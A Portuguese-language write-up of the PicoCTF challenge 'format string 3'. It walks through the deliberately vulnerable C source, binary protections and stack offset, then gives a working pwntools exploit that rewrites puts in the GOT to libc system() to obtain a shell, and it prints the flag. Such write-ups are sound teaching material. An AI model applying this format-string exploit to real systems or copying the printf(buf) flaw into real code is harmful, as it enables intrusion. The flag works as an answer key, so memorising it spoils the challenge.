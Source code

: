 # WriteUp: format string 3

## Descrição do Desafio:
**Autor**: SkrubLawd \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/449?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Médio \
**Data**: 2024 \
**Descrição**:
> This program doesn't contain a win function. How can you win?

## Passo a Passo da Solução

### 1. Análise do arquivo fornecido
Este desafio, assim como os anteriores, fornece o código-fonte junto com os arquivos executáveis.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
```

{% endcode %}

Por ser um código simples, não há muito o que analisar. 

Temos uma variável global contendo o valor `"/bin/sh"`, que nos daria acesso ao terminal caso fosse passado como parâmetro para a função `system()`.

Além disso, há uma função (`hello()`) que vaza um endereço da *libc*, e a `main()` contém uma vulnerabilidade de *format string* na chamada `printf(buf)`, seguida por uma chamada à `puts()` com `normal_string` como argumento.

### 2. Exploit
Com essas informações, podemos suspeitar que o *exploit* envolverá reescrever a entrada da `puts()` na tabela *.got*, alterando seu valor para o endereço da função `system()`. Dessa forma, quando a `main()` chamar `puts(normal_string)`, na realidade estará chamando `system(normal_string)`, abrindo um **shell**.

{% hint style="info" %}

**Nota:** Resumidamente, a tabela *.got* contém os endereços resolvidos das funções da *libc*. Como a *libc* é carregada separadamente, suas proteções podem diferir das do binário principal.

{% endhint %}

Antes de construir o *exploit*, é necessário verificar as proteções dos binários:

```bash
└─$ checksec --file=format-string-3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   44 Symbols        No    0               2               format-string-3

└─$ checksec --file=libc.so.6           
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    DSO             No RPATH   No RUNPATH   No Symbols        Yes   83              178             libc.so.6
```
O executável não contém `PIE`, então seus endereços são sempre os mesmos, eliminando a necessidade de um vazamento para descobri-los. Além disso, ele possui `Partial RELRO`, o que significa que a tabela *.got* ainda pode ser reescrita através da vulnerabilidade de *format string*.

Já a *libc* está com `PIE` ativado, mas como temos um vazamento de endereço, podemos calcular a base da *libc* e encontrar a função `system()`.

Agora, precisamos descobrir o *offset* do nosso *input* dentro da pilha.

```bash
└─$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fc02480a3f0
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
24968963 fbad208b c2058eb0 1 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 a2078 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 
/bin/sh
```

Descobrimos que nosso *input* começa na **posição 38**.

### 3. Solução
O *exploit* pode ser construído, mas há algumas dificuldades técnicas:
- Endereços da *libc* (devido ao `PIE`) costumam ter 6 *bytes*, resultando em valores muito grandes para `printf()`. A solução é dividir o endereço da `system()` em três partes de 2 *bytes* e escrevê-las em ordem crescente para evitar problemas com `%n`.
- O tamanho do *payload* deve ser múltiplo de 8 para não corromper a pilha.
- Devemos garantir que os ponteiros corretos sejam usados com `%hn` para escrita de 2 *bytes*.

{% hint style="info" %}

**Nota:** `%n` escreve no ponteiro a quantidade de bytes impressos até o momento. Se um valor muito grande for escrito primeiro, valores menores se tornam impossíveis de escrever.

{% endhint %}

Com isso em mente, criamos o *script*:

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./format-string-3")
libc = elf.libc
p = remote("rhea.picoctf.net", 56685)

# Pegando o endereço vazado.
p.recvuntil(b"libc: ")
setvbuf = int(p.recvline(keepends=False), 16)

# Calculando o endereço base da libc.
libc.address = setvbuf - libc.sym['setvbuf']

# Repartindo o endereço da system. Por ser little-endian o endereço deve ser escrito ao contrário, fazendo com que o high deva ser escrito no endereço sem offset, e o low com o offset. (O medium é o meio termo).
high = libc.sym["system"] & 0xFFFF
medium = (libc.sym["system"] >> 16) & 0xFFFF
low = (libc.sym["system"] >> 32) & 0xFFFF
parts = sorted([high, medium, low]) # Ordenando.

# Montando o payload, inputs começam na posição 38.
payload = f"%{parts[0]}x%43$hn%{parts[1] - parts[0]}x%44$hn%{parts[2] - parts[1]}x%45$hn"
while len(payload) % 8 != 0:
    payload += "|" # Padding.

# Adicionando endereços no payload.
payload = payload.encode()
payload += p64(elf.got["puts"] + (0 if parts[0] == high else 2 if parts[0] == medium else 4))
payload += p64(elf.got["puts"] + (0 if parts[1] == high else 2 if parts[1] == medium else 4))
payload += p64(elf.got["puts"] + (0 if parts[2] == high else 2 if parts[2] == medium else 4))

# Enviando payload.
p.sendline(payload)
p.interactive()
```

{% endcode %}

### Flag
`picoCTF{G07_G07?_92325514}` 

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
